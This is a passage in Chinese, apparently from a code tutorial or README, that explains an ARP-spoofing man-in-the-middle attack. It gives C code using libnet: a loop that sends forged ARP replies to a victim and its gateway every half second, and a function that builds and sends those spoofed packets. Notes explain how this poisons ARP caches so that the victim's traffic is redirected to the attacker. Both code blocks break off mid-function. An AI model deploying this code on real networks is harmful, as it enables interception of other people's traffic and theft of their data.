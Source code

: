### Arpspoof实现

为了保证目标和网关持续处于被欺骗的状态，我们持续发包处理。

```c
void Arpspoof(void *ARG) {
    MITM_info arg = *(MITM_info *)ARG;
    while (1) {
        /* sent to victim */
        send_fake_ARP(arg.dev, arg.ATTACKER_MAC, arg.TARGET_MAC, arg.GATEWAY_IP, arg.TARGET_IP, ARP_REPLY);
        usleep(500000);
        /* sent to gateway */
        send_fake_ARP(arg.dev, arg.ATTACKER_MAC, arg.GATEWAY_MAC, arg.TARGET_IP, arg.GATEWAY_IP, ARP_REPLY);
        usleep(500000);
   
```

利用libnet构建ARP数据包：

* 对于目标主机，目标MAC和目标IP设置为目标主机的，源MAC设置为自己的，源IP设置为网关的。这样的ARP应答包一旦被目标主机接收，其ARP缓存中对应于网关的IP地址的MAC就变成我们的了，此后目标主机再发包，目的地就全部会变成我们。
* 对于网关，同样的，目标MAC和目标IP设置为网关的，源MAC设置为自己的，源IP设置为目标主机的。

```c
int send_fake_ARP(char *dev, u_char *srcMac, u_char *dstMac, u_char *srcIp, u_char *dstIp, int op) {

    /* definations */
    libnet_t *net_t = NULL;
    static u_char padPtr[18];
    char err_buf[LIBNET_ERRBUF_SIZE];
    libnet_ptag_t p_tag;
    int res;

    /* start libnet */
    net_t = libnet_init(LIBNET_LINK_ADV, dev, err_buf);
    if (net_t == NULL) {
        printf("libnet start error\n");
        return 1;
    }

    /* build ARP */
    p_tag = libnet_build_arp(ARPHRD_ETHER, EPT_IPv4, MAC_ADDR_LEN, IP_ADDR_LEN, op,
    srcMac, srcIp, dstMac, dstIp, padPtr, 18, net_t, 0);
    if (p_tag == -1) {
        printf("libnet build_arp error\n");
        libnet_destroy(net_t);
        return 1;
    }

    /* build ethernet */
    p_tag = libnet_build_ethernet(dstMac, srcMac, EPT_ARP, padPtr, 0, net_t, 0);
    if (p_tag == -1) {
        printf("libnet build_ethernet error\n");
        libnet_destroy(net_t);
        return 1;
    }

    /* send packet */
    res = libnet_write(net_t);
    if (res == -1) {
        printf("ARP libnet write error\n");
        libnet_destroy(net_t);
        return 1;
```